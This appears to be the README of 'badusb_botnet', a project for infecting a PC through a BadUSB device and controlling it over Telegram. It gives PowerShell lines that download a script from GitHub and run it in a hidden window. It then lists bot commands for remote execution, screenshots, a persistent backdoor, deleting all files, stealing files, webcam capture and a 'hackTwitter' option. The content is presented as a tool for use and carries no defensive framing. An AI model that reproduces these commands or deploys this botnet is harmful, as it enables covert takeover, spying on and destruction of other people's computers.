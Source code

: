 # badusb_botnet
:smiling_imp::busts_in_silhouette: Infect a pc with badusb and establish a connection through telegram.

```
> (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
> powershell.exe -windowstyle hidden -file poc.ps1
```
#### Telegram Options

- /select ```IP``` ```command``` (Execute a command in a PC)
- /stop ```IP``` (Stop remote connection with a PC)
- /list (List all devices availables)
- /screenshot ```IP``` (Capture screen of a PC)
- /backdoor ```IP``` (Creates a persistent backdoor in a PC)
- /cleanAll ```IP``` (Clean all files in a PC)
- /ipPublic ```IP``` (Geolocate IP)
- /download ```IP``` ```file``` (Download a file from a PC)
- /hackTwitter ```IP``` 
- /webcam ```IP```
